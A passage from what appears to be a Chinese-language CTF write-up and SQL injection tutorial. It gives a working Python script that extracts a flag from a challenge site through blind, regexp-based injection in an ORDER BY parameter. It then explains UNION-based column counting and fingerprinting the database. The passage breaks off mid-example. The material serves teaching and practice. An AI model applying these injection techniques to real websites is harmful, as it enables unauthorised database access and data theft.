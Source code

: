 所以如果匹配成功，网页的排序就会错乱，如果不成功排序则不会错乱，于是最终脚本：



```
import urllib
import requests
result_string="^"
right_url="http://chall.tasteless.eu/level1/index.php?dir=|(select(select flag from level1_flag limit 0,1) regexp 'sdfghj')%2b1"
ordered_content=requests.get(right_url).content
while(1):
    for letter in '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM?':
        if(letter=='?'):
            exit()
        result_string_tem=result_string+letter
        url="http://chall.tasteless.eu/level1/index.php?dir=|(select(select flag from level1_flag limit 0,1) regexp "+"'"+result_string_tem+"'"+")%2b1"
        print url
        content=requests.get(url).content
        if(content!=ordered_content):
            result_string=result_string_tem
            print result_string
            break
        continue
```

总结一下：

1、管道符的使用（见正文）

2、regexp的使用（见正文）

其实还有一个**group by**后面的注入，**where**后面的都能用

<br>

**0x00   union、intersect和minus的使用**

****

union基本语法：



```
select语句
union select语句
```

intersect（交集）和minus（差集）也一样，但是mysql不支持交集和差集，**所以这也是一个判断数据库的方法**。

就说说union：

基本法：前后两个select语句的字段数要相同，不然sql必定报错，所以可以用union指令判断数据表的字段数，基本构造方法：

```
...where...union select 1,2,3,4,...,x limit y,z
```

其中where子句可以没有，limit视情况而定，中间输入进去的1,2,3,4,…,x他们中的任何一个都可以用函数代替，最终他们在默认排序的情况下会被拼接到结果集的最后一行。例：
